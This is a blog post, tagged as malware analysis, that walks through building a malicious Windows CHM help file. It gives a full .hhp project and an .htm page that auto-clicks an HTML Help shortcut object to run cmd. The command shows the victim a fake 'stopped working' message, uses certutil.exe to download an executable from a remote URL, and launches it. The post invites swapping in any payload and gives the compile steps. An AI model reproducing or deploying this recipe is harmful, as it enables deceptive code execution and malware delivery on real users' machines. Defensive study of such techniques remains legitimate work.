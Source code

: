 ```yaml
---
title: "Malicious CHM (Help) file"
date: "2019-12-07"
layout: single
tags:
- Malware Analysis
categories:
- Blog-post
---
```



Hey everyone. May have a nice day! So today I'm gonna explain how a help (.chm) file could be a malicious file in Windows machine.

First, we need to clarify what is .chm file and what its function.

Based on this [website](https://whatis.techtarget.com/fileformat/CHM-Compiled-HTML-file),

CHM is an extension for the Compiled HTML file format, most commonly used by Microsoft’s HTML-based help program. It may contain many compressed HTML documents and the images and JavaScript they link to. CHM features include a table of contents, index, and full text searching.

So, basically user will click this file to see program's manual, details and so on in windows. But, nowadays... only a few amount of people read (click) this CHM file . So, this malicious chm or attack may not cool enough to be a malicious file because of less uses in wild attacks nowadays hahaha.

Example of CHM file
![enter image description here](http://www.create-chm.com/content/pages/about-chm/images/chm-file-viewer.png)

So, how can this .chm file format can be malicious or how to make it malicious that can download file / execute  code?

Here a write-up on how to make a malicious "help documentation" (chm).

## Let's go!

To build a CHM file, first you need an HTML help project (.hhp) file which is a text configuration file.

Here is an example of .hhp file:
```
[OPTIONS]
Compatibility=1.1 or later
Compiled file=malicious.chm
Default topic=malicious.htm
Display compile progress=No
Language=0x410 Italian (Italy)

[FILES]
malicious.htm

[INFOTYPES]
``` 
Save it as `malicous.hhp`.

Next, create `.htm` file for our HTML source where this file will be our weapon to execute code.
I named it as `malicious.htm`.

Here is the content of the `malicious.htm` file:
```
<html>
<title> Malicious CHM </title>
<head>
</head>
<body>

<h2 align=center> Malicious CHM </h2>
<p>
<h3 align=center> This is a malicious CHM file </h3>
</p>
</body>
</html>

<OBJECT id=shortcut classid="clsid:52a2aaae-085d-4187-97ea-8c30db990436" width=1 height=1>
<PARAM name="Command" value="ShortCut">
<PARAM name="Button" value="Bitmap:shortcut">
<PARAM name="Item1" value=",cmd,/c echo HTML Help Executable may be stopped working... & echo Process is running, please don't close this... & certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Testing/raw/master/malicious.exe c:\mal.exe & start c:\mal.exe">
<PARAM name="Item2" value="273,1,1">

</OBJECT>
<SCRIPT>
shortcut.Click();
</SCRIPT>
```

Ok now I'm gonna explain the execution code.

The execution code will happen in this line. Note here that, you can replace the execution code with your own desired. :)
```
<PARAM name="Item1" value=",cmd,/c echo HTML Help Executable may be stopped working... & echo Process is running, please don't close this... & certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Testing/raw/master/malicious.exe c:\mal.exe & start c:\mal.exe">
```
The next line meaning that I tell the command prompt to print these words to user because the next command "`certutil.exe`" require some seconds to do its job. 

    echo HTML Help Executable may be stopped working... & echo Process is running, please don't close this...
    
The next line is "`certutil.exe`" command. Certutil.exe is a Windows binary used for handling certificates and also can work as our downloader agent to download our malicious binary. Refer [this](https://lolbas-project.github.io/lolbas/Binaries/Certutil/) for more detail about the binary.

```
certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Testing/raw/master/malicious.exe c:\mal.exe
```
Because cerutil.exe takes some times to download our binary, the process execution will be slow too. This make our chm file will display "HTML Help Executable stopped working". If you replaced this code to make an only execution without downloading, CHM will work perfectly without prompting "stopped working" msgbox.

And last line is..
```
& start c:\mal.exe
```
Its function is too execute our malicious binary. 

You can replace the execution code with anything you want include execution of batch file, powershell and so forth (follow your creativity and target).

Now we have these files on our machine. So, the next step is to compile this file to generate our chm file.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/maliciouschm/maliciouschm2.PNG){: .align-center}

To generate the CHM file. You can do this using "HTML Help Workshop". 
Download at Official Microsoft website [here](https://www.microsoft.com/en-my/download/details.aspx?id=21138).

Open HTML Help Workshop ---> Go to `File` ---> Click `compile` ---> Choose our `.hhp` file. ---> HTML Help Workshop will compile for us and give us the malicious chm file.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/maliciouschm/maliciouschm11.PNG){: .align-center}

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/maliciouschm/maliciouschm3.PNG){: .align-center}

Now double click on your help file to check it worked!

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/maliciouschm/maliciouschm4.PNG){: .align-center}

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/maliciouschm/maliciouschm5.PNG){: .align-center}

Now, our code is successfully execute. It download our binary and then start our malicious binary.




So, from here you can get a big picture on how chm file could be another hackers weapon to execute their code.

Orite, goodbye! (and Assalamualaikum)
